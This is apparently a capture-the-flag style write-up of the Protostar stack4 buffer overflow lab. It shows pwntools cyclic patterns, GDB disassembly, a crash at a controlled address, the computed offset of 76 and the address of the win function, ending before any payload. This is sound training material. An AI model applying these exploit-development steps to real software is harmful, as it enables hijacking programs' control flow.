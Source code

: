 <br/>

Generating a cyclic pattern with pwntools
```python
python3
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

<br/>

Now let's open it on GDB

```bash
$gdb stack4
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
```
Now send the pattern to cause a segmentation fault and get the address
```bash
(gdb) r
Starting program: /opt/protostar/bin/stack4 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
```
Finding the offset
```python
>>> cyclic_find(0x61616174)
76
```

<br/>

Getting the address of the win function
```
$ objdump -x stack4 | grep win
  080483f4 g     F .text  00000014              win
```

<br/>
